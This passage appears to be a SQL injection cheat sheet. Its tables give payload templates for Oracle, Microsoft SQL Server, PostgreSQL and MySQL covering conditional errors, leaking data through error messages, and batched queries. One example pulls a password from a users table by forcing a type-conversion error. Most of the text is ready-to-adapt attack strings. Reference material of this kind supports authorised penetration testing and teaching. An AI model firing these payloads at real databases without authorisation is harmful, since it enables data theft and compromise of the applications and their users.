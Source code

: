 #

## Conditional errors
*You can test a single boolean condition and trigger a database error if the condition is true.*

| Type | String |
| --- | --- |
| Oracle   | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual` |
| Microsoft |  `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END` |
| PostgreSQL | `1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)`|
| MySQL | `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')`| 

#

## Extracting data via visible error messages
*You can potentially elicit error messages that leak sensitive data returned by your malicious query.*

| Type | String |
| --- | --- |
| Microsoft   | `SELECT 'foo' WHERE 1 = (SELECT 'secret')` <br> > Conversion failed when converting the varchar value 'secret' to data type int. |
| PostgreSQL |  ` SELECT CAST((SELECT password FROM users LIMIT 1) AS int)` <br> > invalid input syntax for integer: "secret" |
| MySQL | ` SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT 'secret')))` <br> > XPATH syntax error: '\secret' |

#

## Batched (or stacked) queries
*You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.*

| Type | String |
| --- | --- |
| Oracle   | ~~Does not support batched queries.~~ |
| Microsoft |  ` QUERY-1-HERE; QUERY-2-HERE` |
| PostgreSQL | ` QUERY-1-HERE; QUERY-2-HERE `|
| MySQL | ` QUERY-1-HERE; QUERY-2-HERE `| 

- Note
> With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.

#
